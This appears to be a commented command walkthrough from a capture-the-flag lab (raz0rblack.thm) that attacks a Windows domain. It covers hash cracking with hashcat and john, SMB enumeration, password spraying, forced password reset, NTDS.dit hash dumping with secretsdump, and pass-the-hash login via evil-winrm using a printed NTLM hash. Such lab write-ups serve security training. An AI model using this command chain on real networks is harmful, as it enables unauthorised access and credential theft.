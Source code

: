 ```shell
#we get hash for twilliams

hashcat -a 0 -m 18200 krbhash.txt /usr/share/wordlists/rockyou.txt
#crack the hash

smbclient -L \\\\raz0rblack.thm -U twilliams
#this shows we can access some shares
#but we do not find anything

crackmapexec smb raz0rblack.thm -u 'twilliams' -p 'roastpotatoes' --rid-brute
#to enumerate more users

vim usernames.txt
#add enumerated usernames

crackmapexec smb raz0rblack.thm -u usernames.txt -p "roastpotatoes" --continue-on-success
#check password reuse
#password change required for sbradley

smbpasswd -r raz0rblack.thm -U sbradley
#using old password as roastpotatoes
#we can give it a new password

smbmap -u sbradley -p password -H raz0rblack.thm
#we can now access another share

smbclient \\\\raz0rblack.thm\\trash -U sbradley
#mget all files

less chat_log_20210222143423.txt
#contains .zip file clue

#zip file is password-protected

zip2john experiment_gone_wrong.zip > ziphash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
#this gives us the password
#extract zip file contents

secretsdump.py -system system.hive -ntds ntds.dit local > hashdump.txt
#dumps hashes to a file

#format the file contents
vim hashdump.txt
#remove first few lines

cut -d ":" -f 4 hashdump.txt > onlyhashes.txt
#extract only hashes for brute-force

crackmapexec smb -u lvetrova -H onlyhashes.txt --shares raz0rblack.thm
#bruteforce hashes for lvetrova
#gives the required hash

evil-winrm -u lvetrova -H f220d3988deb3f516c73f40ee16c431d -i raz0rblack.thm

cd ..

dir
#we have .xml file

type lvetrova.xml
#contains cred in form of PSCredential
```